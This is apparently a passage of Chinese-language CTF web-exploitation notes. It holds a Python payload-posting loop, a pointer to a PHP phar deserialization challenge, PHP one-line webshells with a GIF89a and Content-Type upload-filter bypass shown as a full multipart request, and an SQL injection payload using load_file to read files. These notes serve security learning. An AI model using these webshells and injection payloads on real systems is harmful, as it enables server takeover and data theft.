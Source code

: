 ```python
         '</user>'
for i in range(1,256):
    payload=rawPayload.format(i)
    #payload=rawPayload
    print(str("#{} =>").format(i),end='')
    try:
        resp=res.post(url,data=payload,timeout=0.3)
    except:
        continue
    else:
        print(resp.text,end='')
    finally:
        print('')
```

45. php phar反序列化漏洞。例题:[[CISCN2019 华北赛区 Day1 Web1]Dropbox](../../CTF/BUUCTF/Web/[CISCN2019%20华北赛区%20Day1%20Web1]Dropbox.md)
46. php文件上传一句话木马最基础绕过。在木马的开头加上GIF89a，上传文件时抓包改`Content-Type:`为图片。注意木马文件的`Content-Type:`改成什么都没事，重要的是后缀名。如果为了绕过过滤不得不改后缀名，就需要后续找别的漏洞把后缀改回来或者直接包含文件。

```php
GIF89a

<?php @eval($_POST['shell']);?>
````

包如下（仅截取上传部分）：

```
------WebKitFormBoundaryXSmMYBArrqu5ODCM
Content-Disposition: form-data; name="upload_file"; filename="shell.php" //这个名字很重要，保留php后缀名就能直接蚁剑连，否则需要找别的漏洞
Content-Type: image/png //改成png，能绕过过滤的都行

GIF89a

<?php @eval($_POST['shell']);?>

------WebKitFormBoundaryXSmMYBArrqu5ODCM
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryXSmMYBArrqu5ODCM--
```
最近找到了个更短的：
```php
<?=`$_GET[0]`?>
```
更多参考 https://github.com/bayufedra/Tiny-PHP-Webshell

47. sql注入如果没有过滤load_file，就能直接读取文件。例如：
- ',\`address\`=(select(load_file('/flag.txt')))#
可以直接在不爆表爆字段等任何信息的情况下直接读取到flag.txt文件。
